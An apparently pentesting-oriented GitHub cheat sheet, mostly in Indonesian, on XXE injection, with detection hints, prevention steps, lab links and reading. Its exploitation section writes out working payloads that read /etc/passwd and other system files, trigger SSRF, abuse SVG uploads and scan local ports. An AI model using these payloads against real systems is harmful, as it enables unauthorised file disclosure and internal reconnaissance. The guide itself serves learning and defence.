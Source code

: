 # XXE :kiss:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/90031186-25536580-dce7-11ea-9da9-dcc9b4473bf7.jpg" width="500"></p>

## Detection
  - [Aplikasi](https://christian-schneider.net/GenericXxeDetection.html) yang mengirimkan data dalam format XML (XML endpoint)
  - Webpage yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Web service yang mengunakan XML seperti RSS, SOAP
  - File upload function
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Cara cepat menemukan XML endpoint adalah automasi
  - Gunakan Burp Collaborator untuk detect blind XXE atau, gunakan remote server untuk mendeteksi blind XEE
  - [xxeserve](https://github.com/joernchen/xxeserve), burpcollaborator alternatif
  - Gunakan webrick sebagai simple server
  - Cari API endpoint
  - Umumnya web request xml menggunakan `Content-Type: application/x-www-form-urlencoded`, modifikasi menjadi `text/xml` atau `application/xml`lalu analisa responnya

## Lab
  - [Portswigger Web Security Academy - XXE injection](https://portswigger.net/web-security/xxe)
  - [Vulnhub - XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)
  - [Play XML Entities](https://pentesterlab.com/exercises/play_xxe/course)

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/)
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s)
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
  - [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
  - [Identifying Xml eXternal Entity vulnerability (XXE)](https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)
  - [List of XML markup languages](https://en.wikipedia.org/wiki/List_of_XML_markup_languages)
  - [Finding and Exploiting XXE – XML External Entities Injection](https://resources.infosecinstitute.com/finding-and-exploiting-xxe-xml-external-entities-injection/#gref)
  - [Generic XXE Detection](https://christian-schneider.net/GenericXxeDetection.html)
  - [Advice From A Researcher: Hunting XXE For Fun and Profit](https://www.bugcrowd.com/blog/advice-from-a-bug-hunter-xxe/)


